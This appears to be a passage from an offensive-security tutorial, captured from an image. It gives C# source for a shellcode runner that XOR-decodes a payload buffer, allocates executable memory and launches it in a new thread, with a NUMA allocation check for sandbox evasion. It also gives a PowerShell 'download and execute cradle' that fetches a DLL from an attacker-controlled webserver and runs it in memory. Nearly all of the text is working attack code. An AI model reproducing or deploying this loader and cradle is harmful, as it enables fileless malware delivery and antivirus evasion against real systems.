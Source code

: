 ```
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        public static void RunBaby()
        {
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            byte[] buf = new byte[1072]
                {  };

            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] ^ 0xAA) & 0xFF);
            }

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```

#### Create a download and execute cradle
- Download the ```ClassLibrary1.dll``` file to your webserver.
- Create a ```runme.ps1``` file with the following content:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://<IP>/ClassLibrary1.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("RunMe.RunMeClass")
$method = $class.GetMethod("RunBaby")
$method.Invoke(0, $null)
```
